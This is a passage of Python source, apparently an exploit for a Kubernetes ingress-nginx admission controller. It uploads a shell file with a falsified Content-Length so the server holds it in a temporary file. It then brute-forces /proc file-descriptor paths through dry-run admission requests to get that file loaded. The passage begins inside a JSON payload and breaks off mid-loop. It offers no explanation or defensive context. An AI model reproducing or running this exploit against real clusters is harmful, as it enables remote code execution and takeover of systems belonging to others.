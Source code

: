 ```python
      },
      "oldObject": null,
      "dryRun": true,
      "options": {
         "kind": "CreateOptions",
         "apiVersion": "meta.k8s.io/v1"
      }
   }
}
"""

def send_request(admission_url, json_data, proc, fd):
    print(f"Trying Proc: {proc}, FD: {fd}")
    path = f"proc/{proc}/fd/{fd}"
    replaced_data = json_data.replace("REPLACE", path)
    headers = {
        "Content-Type": "application/json"
    }
    full_url = admission_url.rstrip("/") + "/admission"
    try:
        response = requests.post(full_url, data=replaced_data, headers=headers, verify=False, timeout=1)
        print(f"Response for /proc/{proc}/fd/{fd}: {response.status_code}")
    except Exception as e:
        print(f"Error on /proc/{proc}/fd/{fd}: {e}")

def admission_brute(admission_url, max_workers=10):
    with ThreadPoolExecutor(max_workers=max_workers) as executor:
        for proc in range(30, 50):
            for fd in range(3, 30):
                executor.submit(send_request, admission_url, admission_json, proc, fd)

        for proc in range(160, 180):
            for fd in range(3, 30):
                executor.submit(send_request, admission_url, admission_json, proc, fd)

def exploit(ingress_url, shell_file):
    if not os.path.exists(shell_file):
        print(f"Error: Shell file '{shell_file}' not found")
        sys.exit(1)
    so = open(shell_file, 'rb').read() + b"\x00" * 8092
    real_length = len(so)
    fake_length = real_length + 10
    parsed = urlparse(ingress_url)
    host = parsed.hostname
    port = parsed.port or 80
    path = parsed.path or "/"
    try:
        sock = socket.create_connection((host, port))
    except Exception as e:
        print(f"Error connecting to {host}:{port}: {e}")
        sys.exit(1)
    headers = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        f"User-Agent: lufeisec\r\n"
        f"Content-Type: application/octet-stream\r\n"
        f"Content-Length: {fake_length}\r\n"
        f"Connection: keep-alive\r\n\r\n"
    ).encode("iso-8859-1")
    sock.sendall(headers + so)
    response = b""
    while True:
```